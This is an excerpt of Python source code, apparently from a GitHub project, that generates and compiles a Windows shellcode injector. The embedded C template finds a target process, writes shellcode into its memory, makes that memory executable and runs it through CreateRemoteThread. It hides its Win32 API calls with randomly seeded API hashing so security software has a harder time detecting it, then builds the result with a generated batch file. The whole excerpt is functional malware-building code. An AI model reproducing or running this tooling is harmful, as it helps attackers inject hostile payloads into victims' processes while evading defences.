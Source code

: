 ```py
				hProcess = EXEC( Kernel32, OpenProcess ) ( PROCESS_ALL_ACCESS, FALSE, Process.th32ProcessID );
			}
		}
	} while ( EXEC( Kernel32, Process32NextW ) ( hSnapshot, &Process ) );
	
    if ( !hProcess )
		return -1;

	pShellcode = EXEC( Kernel32, VirtualAllocEx ) ( hProcess, 0, sizeof( shellcode ), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE );
	EXEC( Kernel32, WriteProcessMemory ) ( hProcess, pShellcode, shellcode, sizeof( shellcode ), &BytesWritten );
	EXEC( Kernel32, VirtualProtectEx ) ( hProcess, pShellcode, sizeof( shellcode ), PAGE_EXECUTE_READ, &OldProtection );
	hThread = EXEC( Kernel32, CreateRemoteThread ) ( hProcess, 0, 0, ( LPTHREAD_START_ROUTINE )pShellcode, 0, 0, 0);
	EXEC( Kernel32, WaitForSingleObject( hThread, INFINITE ) );
	EXEC( Kernel32, CloseHandle( hProcess ) );
	EXEC( Kernel32, CloseHandle( hThread ) );
	return 0;
}
""" % args.target

    compiler = f"""@echo off
call "C:\\Program Files\\Microsoft Visual Studio\\2022\\Community\\VC\\Auxiliary\\Build\\vcvars64.bat"
cd "{os.getcwd()}"
cl main.c hashycalls.c
link.exe main.obj hashycalls.obj /OUT:{args.outfile}
"""

    hashy = HashyCalls(
        globals         = True
        , apicalls      = [
            'CreateToolhelp32Snapshot', 
            'Process32FirstW', 
            'Process32NextW', 
            'wcscmp', 
            'OpenProcess', 
            'VirtualAllocEx', 
            'VirtualProtectEx', 
            'WriteProcessMemory', 
            'CreateRemoteThread', 
            'WaitForSingleObject', 
            'CloseHandle'
        ]
        , api_list_name = 'hWin32'
        , algo          = args.algo
        , debug         = False
        , seed          = random.randint(1, 10000)
    )

    hashy.source.write_to_dir('.')
    hashy.header.write_to_dir('.')
    with open('main.c', 'w') as file:
        file.write(main_source)
    with open('compile.bat', 'w') as file:
        file.write(compiler)

    subprocess.run(['cmd.exe', '/c', 'compile.bat'])

    os.remove(hashy.source.filename)
```
